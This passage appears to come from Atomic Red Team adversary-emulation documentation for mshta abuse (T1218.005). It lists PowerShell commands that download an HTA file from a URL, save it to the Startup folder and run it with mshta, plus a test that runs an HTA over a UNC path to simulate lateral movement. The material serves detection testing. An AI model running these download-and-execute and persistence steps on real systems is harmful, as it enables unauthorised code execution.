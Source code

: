 **Supported Platforms:** Windows

**auto_generated_guid:** c4b97eeb-5249-4455-a607-59f95485cb45

#### Inputs:

| Name      | Description                   | Type   | Default Value                                                                                            |
| --------- | ----------------------------- | ------ | -------------------------------------------------------------------------------------------------------- |
| temp_file | temp_file location for hta    | string | $env:appdata&#92;Microsoft&#92;Windows&#92;Start Menu&#92;Programs&#92;Startup&#92;T1218.005.hta         |
| hta_url   | URL to HTA file for execution | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/T1218.005.hta |

#### Attack Commands: Run with `powershell`!

```powershell
$var =Invoke-WebRequest "#{hta_url}"
$var.content|out-file "#{temp_file}"
mshta "#{temp_file}"
start-sleep -s 15
stop-process -name "calculator" -Force
```

#### Cleanup Commands:

```powershell
remove-item "#{temp_file}" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #4 - Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement

Executes an HTA Application using JScript script engine using local UNC path simulating lateral movement.

**Supported Platforms:** Windows

**auto_generated_guid:** 007e5672-2088-4853-a562-7490ddc19447

#### Inputs:

| Name            | Description                          | Type   | Default Value                          |
| --------------- | ------------------------------------ | ------ | -------------------------------------- |
| script_engine   | Script Engine to use                 | string | JScript                                |
| hta_file_path   | HTA file name and or path to be used | string | Test.hta                               |
| mshta_file_path | Location of mshta.exe                | string | $env:windir&#92;system32&#92;mshta.exe |

#### Attack Commands: Run with `powershell`!

```powershell
Invoke-ATHHTMLApplication -HTAFilePath #{hta_file_path} -ScriptEngine #{script_engine} -AsLocalUNCPath -SimulateLateralMovement -MSHTAFilePath #{mshta_file_path}
```
